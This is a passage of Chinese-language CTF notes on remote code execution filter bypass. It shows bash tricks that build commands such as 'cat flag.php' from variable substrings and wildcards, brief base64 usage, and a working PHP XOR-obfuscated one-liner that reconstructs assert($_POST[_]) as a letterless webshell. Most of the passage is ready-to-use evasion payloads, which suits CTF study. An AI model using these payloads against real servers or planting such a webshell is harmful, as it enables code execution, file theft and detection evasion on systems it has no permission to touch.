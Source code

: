 从当前路径中截取字母构造读取命令`nl.cat等等等等`


`${PATH:~0}${PWD:~0}$IFS????.???`~数字或者字母都代表从最后往前数第几个字母，从这个位置开始截取后面的字符串

`#`代表取长度，`#SHLVL`深度数字的长度为1，也就是深度是一个数字，对深度取长度就是1

>/var/www/html # ls /bin

`${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???`cat flag.php


* 常用变量

```s
${PATH}当前路径
${SHLVL}深度
${HOME}
${PWD}当前目录
${BASH}
${PHP_VERSION}PHP版本
${PHP_CFLAGS}
```

## shell命令

* `base64`

```s

（1）base64 file
功能：从指定的文件file中读取数据，编码为base64的字符串然后输出；

（2）echo “string” | base64
功能：将字符串string+换行编码为base64的字符串然后输出；

（3）echo -n “string” | base64
功能：将字符串string编码为base64的字符串然后输出；

```




# 无字母RCE

## 位运算`异或RCE`

找到两个非字母的字符，使得两者二进制异或之后变为对应字母就可，将它们连接起来然后传进去okk

异或运算，二进制字符进行比较，相同返回`0`，不同返回`1`
```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```
